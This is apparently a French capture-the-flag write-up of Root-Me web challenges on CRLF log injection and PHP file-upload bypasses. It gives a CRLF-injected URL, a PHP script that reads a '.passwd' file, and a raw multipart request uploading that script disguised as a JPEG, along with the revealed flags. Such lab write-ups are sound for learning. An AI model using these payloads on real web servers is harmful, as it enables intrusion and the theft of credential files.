 
## 12. CRLF

En se renseignant à propos de l'injection CRLF, on découvre que les caractères `%0d%0a` permettent de passer des données supplémentaires dans une requête.
On passe donc le message "admin authenticated." suivi du flag CRLF ainsi que du mot guest pour faire croire au fichier de log qu'on s'est connecté et le flag attentu s'affiche :

```
URL utilisée : http://challenge01.root-me.org/web-serveur/ch14/?username=admin%20authenticated.%0d%0aguest
```

Le flag est donc  **rFSP&G0p&5uAg1%**.

## 13. File upload - double extensions

Comme le titre du défi l'indiquait, nous avons utilisé un fichier avec une double extension pour exécuter du code PHP.
Nous avons donc créé un fichier `img.php.jpeg`, puisque seules les extensions GIF, PNG et JPEG étaient acceptées, et nous avons mis en corps du fichier le code suivant permettant de lire le contenu du fichier `.passwd` et de l'afficher :
```php
<?php
$file = file_get_contents('../../../.passwd');
var_dump($file);
?>
```
Une fois le fichier uploadé, on y accède via l'URL indiquée et celui nous retourne le mot de passe :
```
string(26) "Gg9LRz-hWSxqqUKd77-_q-6G8 "
```

## 14. File upload - type MIME

Comme le titre l'indique, il est possible que le programme en PHP vérifie le type MIME donc le type Content-Type des fichiers. Donc nous allons simplement fait croire au serveur que notre fichier est une image en hors ce sera un script PHP.

```text
POST http://challenge01.root-me.org/web-serveur/ch21/?action=upload
Cookie: PHPSESSID=p3f7lp9lntnqn78lk5j5iajv40
Content-Length: 249
Content-Type: multipart/form-data; boundary=15a2b44ada445e9c2ed219355b04907a

--15a2b44ada445e9c2ed219355b04907a
Content-Disposition: form-data; name="file"; filename="rstasrtrast.php"
Content-Type: image/jpeg

<?php
$file = file_get_contents('../../../.passwd');
var_dump($file);
?>
--15a2b44ada445e9c2ed219355b04907a--
```
